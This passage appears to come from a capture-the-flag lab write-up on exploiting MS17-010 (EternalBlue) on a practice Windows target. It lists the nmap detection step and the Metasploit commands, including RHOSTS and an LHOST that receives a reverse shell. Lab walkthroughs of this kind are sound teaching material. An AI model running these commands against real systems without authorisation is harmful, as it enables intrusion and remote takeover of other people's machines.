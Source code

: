 Finally, we have something to exploit. Here, I used `nmap` tool with `script` option to look if the target is vulnerable to some of the known SMBv1 exploits, and it is vulnerable to `ms17-010` which is famously known as `EternalBlue` (if you are a boy hacker) or `EternalRomance` (if you are a girl hacker). 

### Automatic Exploitation - for script kiddies

There are two ways to exploit this, one is by using our all-time favorite `metasploit-framework` which will automatically exploit this by using its pre-installed script. Another one is finding an exploit online and launching it. We will first go through `metasploit-framework` and then the other way.

**Commands:**
- `searchsploit ms17-010`
- `msfconsole`
- `search ms17-010`
- `use 0`
- `show options`
- `set RHOSTS 10.10.10.40`
- `set LHOST 10.10.14.12`
- `exploit`

![](images-blue/3.png)
![](images-blue/4.png)

We were able to find a metasploit exploit for this vulnerability, and we will use that to exploit it (there are a lot of metasploit exploits for this vulnerability, make sure you check the OS requirement for them before running it). 
